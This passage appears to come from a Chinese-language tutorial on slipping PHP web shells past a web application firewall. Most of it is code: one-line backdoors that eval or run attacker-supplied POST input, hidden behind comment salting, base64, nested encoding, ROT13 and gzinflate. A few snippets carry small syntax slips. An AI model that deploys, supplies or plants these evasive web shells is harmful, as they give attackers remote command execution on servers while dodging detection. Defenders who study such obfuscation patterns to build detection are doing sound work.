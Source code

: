 ##### 自定义字符串处理函数拼接

#### 加盐

```php
<?php
function x()
{
    return "/*sasas23123*/".$_POST['a']."/*sdfw3123*/";
}
eval(x());
?>
```

#### 加解密绕过 WAF

##### ASCII 编解码绕过

即字符串拼接

##### base64 编解码绕过

```php
<?php
$a=base64_decode("ZXZhbA==")
@$a($_POST['cmd']);
?>
```

如果$_POST 变量也被加入 BlackList 了，那我们可以更进一步地混淆

```php
<?php
$a=base64_decode("ZXZhbA==")
$payload='ZXZhbCgkX1BPU1RbYV0pOw==';
$decode_payload = @base64_decode($payload);
@$a("/*sasas23123*/".$decode_payload."/*sdfw3123*/");
?>
```

##### ROT13 编解码绕过

```php
<?php
$a = str_rot13('flfgrz'); 
@$a($_POST['cmd']); 
?>
```

##### Gzip 编解码绕过

```php
<?php @eval(gzinflate(base64_decode('40pNzshXKMgoyMxLy9fQtFawtwMA')));?>
```

##### 自定义编解码方法绕过
